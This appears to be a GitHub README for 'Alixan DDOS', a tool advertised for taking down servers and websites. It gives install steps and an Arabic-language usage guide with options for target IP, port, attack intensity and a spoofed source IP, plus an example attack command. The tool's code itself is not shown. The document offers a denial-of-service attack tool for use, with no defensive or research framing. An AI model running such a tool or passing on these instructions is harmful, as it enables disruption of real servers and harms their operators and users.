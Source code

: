 # Alixan DDOS

DDOS Strong Tool To Stop Servers And Sites



## installing

- 1 . <code> pkg install python </code>
- 2 . <code> git clone https:</code>
- 3 . <code> cd alixan-DDOS </code>
- 4 . <code> pip install -r installing.txt </code>
- 5 . <code> python alixanDDOS.py -h  </code>




### Command information:
    الاستخدام :
$ <code>python alixanDDOS.py [-i] [-p] [-l]    </code>     

│         -h : للمساعده                             
│         -i : اي بي السيرفر                            
│         -p : البورت المراد استهدافه                          
│         -l : عدد مستويات الهجوم                
│         -f : ال ايبي الزائف اختياري                              
│         -d : اخفاء وتقليل الرسائل المنبثقه                         
 مثال :                                        
<code> python alixanDDOS.py -i 12.345.678.90 -p 80 -l  3 </code>


